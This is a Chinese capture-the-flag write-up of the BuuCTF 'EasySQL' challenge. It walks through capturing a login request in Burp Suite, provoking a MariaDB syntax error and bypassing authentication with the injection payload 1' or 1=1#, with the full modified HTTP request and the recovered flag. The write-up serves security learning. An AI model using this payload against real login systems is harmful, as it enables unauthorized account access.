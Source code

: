 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - SQL
---
```


# \[极客大挑战 2019\] EasySQL

## 前置工作

启动靶机，看到如下网页：

![](https://p.sda1.dev/13/06389bed26e67392efcea676663e7467/image.png)

根据题目名字，可以确定这是一道 SQL 注入题，打开 F12 翻看源代码，发现登录框是一个表单，将用户名和密码以 `Request Params`（其实就是 `GET`） 的形式传入 `check.php`

![](https://p.sda1.dev/13/f14587237edfdbfe7dbf1f5971768b8b/image.png)

## 确定请求体

但无法确定具体的请求，于是我们使用 Burp Suite 进行一次抓包，打开 Burp Suite，进入代理，打开内嵌浏览器，开启拦截

![](https://p.sda1.dev/13/d277053d8385513f65a4346863978579/image.png)

中间过程直接放行，直到点击`登录`的时候，暂时先不放行，查看请求体

![](https://p.sda1.dev/13/c57108edc284109f362325509aa9ec39/image.png)

```http
GET /check.php?username=root&password=123456 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

得出具体的请求方式是 `GET /check.php?username={username}&password={password}`

## 尝试注入

尝试性地往用户名输入框中输入 `root'`，密码随便输，提示如下

![](https://p.sda1.dev/13/4435ef1306e400b126532e0c56fd74c9/image.png)

提示发现这是 MariaDB 数据库，当 MySQL 做就行了，从这一段话中我们还能够猜测一下这条查询语句到底是什么，才导致会出这条错

```sql
SELECT * FROM XXX WHERE username='$user' AND password='$pass';
```

在这种情况下如果我的 `username` = `root'`，那么语句就会变成这样

```sql
SELECT * FROM XXX WHERE username='root'' AND password='$pass';
```

## 万能密码

可以看到这样就会产生格式错误，那么我们就得想办法绕过这个查询，就得用到万能密码，我们尝试将 SQL 语句更改成一种 100% 通过的样子：

```sql
SELECT * FROM XXX WHERE username='1' or 1=1#' AND password='1';
```

即 `username` = `1' or 1=1#`，`password` = `1`，其中 `username` 的值就是万能密码，将 Burp Suite 拦截到的请求进行修改，改成

```http
GET /check.php?username=1%27+or+1%3D1%23&password=1 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

之后放行该请求，得到 Flag，`flag{6965df19-7ebe-42f7-b396-14d380a5d9e7}`

![](https://p.sda1.dev/13/0e789a154b3ae53ff5f35d58a4c9baf2/image.png)